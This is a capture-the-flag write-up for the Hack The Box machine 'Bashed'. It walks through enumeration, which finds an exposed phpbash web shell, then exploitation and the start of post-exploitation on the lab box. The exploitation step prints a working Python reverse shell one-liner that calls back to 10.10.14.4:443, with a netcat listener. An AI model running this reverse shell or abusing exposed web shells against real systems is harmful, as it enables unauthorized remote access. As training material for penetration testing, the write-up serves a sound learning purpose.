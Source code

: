 ``` {.python .numberLines}
```

![writeup.enumeration.steps.4.1](Box%20Write-ups/htb.bashed/screenshot03.png)  

![writeup.enumeration.steps.4.2](Box%20Write-ups/htb.bashed/screenshot01.png)  

5\. We find that [`phpbash`](https://github.com/Arrexel/phpbash) is a minimal web shell that can give us interactive access to the target machine.  

![writeup.enumeration.steps.5.1](Box%20Write-ups/htb.bashed/screenshot02.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp  | http      | 2.4.18 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
/dev/phpbash.min.php
/dev/phpbash.php
```

\newpage
## Phase #2: Exploitation
1\. We visit the `/dev/phpbash.min.php` page and find the `phpbash` interactive web shell UI which enables command execution and further enumeration:  

![writeup.exploitation.steps.1.1](Box%20Write-ups/htb.bashed/screenshot05.png)  

2\. We use a Python reverse shell to obtain interactive access on this system:  
``` {.python .numberLines}
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

![writeup.exploitation.steps.2.1](Box%20Write-ups/htb.bashed/screenshot06.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@bashed> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed>  
www-data@bashed> uname
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed>  
www-data@bashed> ifconfig
ens33   Link encap:Ethernet  HWaddr 00:50:56:b9:44:62  
        inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
        inet6 addr: dead:beef::250:56ff:feb9:4462/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:4462/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:83524 errors:0 dropped:332 overruns:0 frame:0
        TX packets:78785 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000 
        RX bytes:5305396 (5.3 MB)  TX bytes:8408691 (8.4 MB)

lo      Link encap:Local Loopback  
```